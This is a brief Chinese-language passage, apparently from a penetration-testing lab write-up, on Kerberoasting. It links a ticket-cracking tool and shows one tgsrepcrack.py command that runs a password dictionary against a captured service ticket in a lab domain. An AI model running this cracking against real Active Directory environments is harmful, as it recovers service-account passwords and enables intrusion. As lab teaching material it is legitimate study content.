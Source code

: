 这里破解工具相当于是将你的密码字典进行加密比较，成功与否取决于你的字典,同时需要使用到python3。

[破解票据工具](https://github.com/nidem/kerberoast)

```
 python .\tgsrepcrack.py .\pass.txt .\1-40a00000-webadmin@MSSQLSvc~Srv-DB-0day.0day.org~1433-0DAY.ORG.kirbi
```

![image-20230724094749165](assets/qRUBDWZxNn3otbP.png)

